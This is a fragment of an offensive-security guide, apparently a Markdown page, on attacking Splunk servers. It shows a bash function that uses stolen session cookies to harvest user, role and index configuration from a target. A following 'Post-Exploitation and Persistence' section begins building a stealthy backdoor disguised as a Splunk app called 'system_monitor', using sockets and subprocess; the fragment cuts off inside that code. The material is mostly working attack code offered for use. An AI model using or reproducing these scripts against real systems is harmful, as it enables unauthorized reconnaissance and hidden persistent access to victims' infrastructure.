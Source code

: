```bash
        "/services/apps/local"
    )
    
    for url in "${config_urls[@]}"; do
        echo "[+] Extracting: $url"
        config_file="config_$(basename $url).xml"
        
        curl -s -b cookies.txt "$splunk_url$url" > "$config_file"
        
        # Extract key information
        case $url in
            *"authentication/users"*)
                grep -oP '<s:key name="name">\K[^<]+' "$config_file" | \
                  head -20 > "users.txt"
                echo "  [+] Users extracted to users.txt"
                ;;
            *"authorization/roles"*)
                grep -oP '<s:key name="name">\K[^<]+' "$config_file" | \
                  head -20 > "roles.txt"
                echo "  [+] Roles extracted to roles.txt"
                ;;
            *"data/indexes"*)
                grep -oP '<s:key name="name">\K[^<]+' "$config_file" | \
                  head -20 > "indexes.txt"
                echo "  [+] Indexes extracted to indexes.txt"
                ;;
        esac
    done
    
    echo "[+] Configuration harvesting complete"
}

# harvest_splunk_configs "http://target.com:8000"
```

---

## Post-Exploitation and Persistence

### Splunk Infrastructure Persistence

#### Persistent Application Installation
```bash
# Install persistent backdoor application
install_persistent_backdoor() {
    local app_name="system_monitor"
    
    echo "[+] Installing persistent Splunk backdoor"
    
    # Create stealthy backdoor application
    mkdir -p persistent_backdoor/$app_name/{bin,default}
    
    # Create multi-protocol backdoor
    cat > persistent_backdoor/$app_name/bin/monitor.py << 'EOF'
#!/usr/bin/env python3
import socket
import subprocess
import threading
import time
import base64

# Multiple backdoor methods
def tcp_backdoor():
```